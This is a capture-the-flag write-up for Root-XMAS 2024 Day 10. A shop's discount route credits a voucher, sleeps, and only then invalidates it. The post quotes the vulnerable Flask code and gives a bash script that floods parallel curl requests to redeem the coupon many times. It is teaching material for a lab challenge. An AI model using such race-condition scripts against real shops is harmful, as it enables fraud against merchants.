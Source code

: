 ```yaml
---
title: Root-XMAS 2024 Day 10 - Route-Mi Shop
feed: hide
permalink: /RootXMAS_2024_10
date: 10-12-2024
summary: A use-once coupon. let's go shopping!
---
```

### summary

A web challenge with a race condition allowing to apply multiple times a discount voucher.
### recon

We have a nice shop, with a 50€ flag. We can create an account, and we get a 5€ welcome voucher. 
The coupon is showed on our account page, and we can click on a button to redeem it.
However there is no other way to add money to our account, so it's not enough to get the flag! 

![[rmxmas24d10_shop.png| a shop with cheap items]]

![[rmxmas24d10_coupon.png|nice a coupon!]]

We have the sources, so let's check them out!

```js
@app.route('/discount', methods=['POST'])
@login_required
def discount():
    user = User.query.get(session['user_id'])
    coupon_code = request.form.get('coupon_code')

    coupon = Coupon.query.filter_by(user_id=user.id, code=coupon_code).first()
```

Oh no, the coupon is tied to the account, we cannot create multiple ones to redeem the coupon to a single account! What do?
### solution

Let's investigate further our `/discount` route...

```js
@app.route('/discount', methods=['POST'])
	...
	balance = int(user.balance)
    if coupon:
        if not coupon.used:
            balance += 5.0
            user.balance = balance
            db.session.commit()

            anti_bruteforce(2)

            coupon.used = True
            user.can_use_coupon = False
            db.session.commit()
            flash("Your account has been credited with 5€ !")
			...

def anti_bruteforce(time):
	return sleep(time)
```

Wait, so the code credits our account, sleeps 2 seconds and *then* invalidate the coupon? smells like a race condition!

Now you have multiple solutions, you can brute-force with Burp/Zap/Caido . 
Strangely I could not manage to have 10 requests done in 2 seconds with Zap and Caido. Maybe there is an overhead or I missed some parameter.
So let's do it with a simple bash script:

```bash
#!/bin/env bash

cookie="eyJ1c2V..." # get from browser devtools
coupon_code="6283860a-..."

for i in {00..200}
do
    curl -k 'https://day10.challenges.xmas.root-me.org/discount' -X POST \
	-H 'Content-Type: application/x-www-form-urlencoded' \ 
	-H "Cookie: session=$cookie" 
	--data-raw "coupon_code=$coupon_code" & 
	# don't forget the '&' to paralellize!
done
```

Strangely, I had to test the script 2-3 times, as sometimes it only managed to redeem the coupon 5 or 7 times, when we needed 10 to buy the flag.
There must be a more efficient and reliable way to send multiple requests in parallel. Maybe with a script in python or Rust creating threads, the [Portswigger documentation on Race conditions](https://portswigger.net/web-security/race-conditions) also talks about warming up requests.

I also met someone who solved the challenge withe the advanced technique of... spamming the redeem button with his mouse! A  `Cookie Clicker` pro player I guess, and his technique worked very well. Sometimes the challs are that simple ^^'

Race conditions are real, most of the time not as obvious as this challenge, but it's often easy to find some in the wild!


| Previous day | [[Day 09 - The Christmas Thief]] |
| ------------ | -------------------------------- |
| Next day     | [[Day 11 - Padoru]]              |